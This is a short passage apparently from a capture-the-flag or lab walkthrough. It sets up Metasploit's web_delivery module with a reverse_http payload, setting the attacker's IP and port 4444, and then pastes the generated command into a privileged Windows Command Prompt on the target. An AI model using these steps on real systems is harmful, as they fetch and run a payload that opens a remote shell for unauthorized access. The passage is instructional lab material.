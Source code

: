 Set lhost (and lport) to your IP Address:

    msf5 exploit(multi/script/web_delivery) > set lhost 10.8.82.167
    lhost => 10.8.82.167

I've left my lport to the default 4444.

We will now set up a reverse_http payload:

![](images/2020-08-27-21-28-09.png)

and then run:

![](images/2020-08-27-21-31-33.png)

We can now copy + paste this code directly into the Command Prompt we opened earlier (the one with privileged access):
